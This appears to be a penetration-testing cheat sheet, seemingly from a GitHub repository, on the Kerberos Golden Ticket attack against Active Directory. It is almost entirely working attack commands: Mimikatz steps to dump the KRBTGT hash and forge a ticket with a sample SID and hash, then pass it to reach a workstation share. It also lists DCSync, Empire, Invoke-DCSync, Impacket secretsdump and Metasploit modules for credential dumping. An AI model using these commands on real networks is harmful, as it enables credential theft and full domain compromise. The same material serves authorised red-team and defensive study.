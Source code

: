# Golden Ticket

## Requirements: Domain Administrator Account or account with DCSync rights

## Essential information for the attack to work:

1) KRBTGT account NTLM hash

2) Domain SID

## Example Steps

### 1) Run Mimikatz

    privilege::debug

### 2) Dump information from the KRBTGT account to construct the golden ticket (Domain SID and NTLM Hash)

    lsadump::lsa /inject /name:krbtgt

### 3) Put it all together to create the golden ticket

    kerberos::golden /User:Administrator /domain:vuln.local /sid:S-1-5-21-2356823372-3609795904-2142328116 /krbtgt:ab20acb811769e025aba7d4fef487b96 /id:500 /ptt

### 4) Create a separate command line session using the Golden Ticket (Pass-the-Ticket)

    misc::cmd

### 5) With the newly created shell, we can run the command "dir" on a workstation on the network

    dir \\ws01\c$

## Alternate Method: Empire C2

    powershell/credentials/mimikatz/golden_ticket

## Methods of KRBTGT hash retrieval

### 1) Mimikatz

    lsadump::dcsync /domain:security.local /all
    lsadump::dcsync /domain:security.local /user:krbtgt
    lsadump::lsa /patch

### 2) Empire C2

    usemodule credentials/mimikatz/dcsync_hashdump

### 3) Invoke-DCSync

    Invoke-DCSync
    Invoke-DCSync -PWDumpFormat

### 4) Impacket Secretsdump

    secretsdump.py <Domain>/<Username>:<Password>@<Domain-Controller>

### 5) Metasploit

    use auxiliary/admin/smb/psexec_ntdsgrab
    use windows/gather/credentials/domain_hashdump
